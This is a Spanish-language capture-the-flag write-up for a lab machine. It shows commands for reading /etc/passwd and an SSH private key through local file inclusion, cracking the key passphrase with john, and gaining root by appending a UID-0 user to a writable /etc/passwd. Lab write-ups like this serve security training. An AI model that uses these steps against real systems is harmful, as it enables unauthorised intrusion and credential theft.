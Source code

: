```yaml
---
tags:
  - CTF
  - CyberSec
---
```

## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![](_anexos_/Screenshot%20from%202023-12-23%2021-38-52.png)
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![](_anexos_/Screenshot%20from%202023-12-23%2021-41-28.png)
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![](_anexos_/Screenshot%20from%202023-12-23%2021-45-59.png)

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 

![](_anexos_/Screenshot%20from%202023-12-23%2021-50-04.png)
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`

![](_anexos_/Screenshot%20from%202023-12-23%2021-51-56.png)

Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```

![](_anexos_/Screenshot%20from%202023-12-23%2023-57-33.png)

Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![](_anexos_/Screenshot%20from%202023-12-24%2000-01-57.png)

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```

![](_anexos_/Screenshot%20from%202023-12-24%2001-43-10.png)

### Resources
- https://reddyyz.medium.com/cracking-ssh-rsa-private-keys-ead3c126df6b
- https://github.com/openwall/john
- https://steflan-security.com/linux-tty-shell-cheat-sheet/
- https://robertholdsworthsecurity.medium.com/how-to-crack-an-ssh-private-key-passphrase-ab7dd1583178
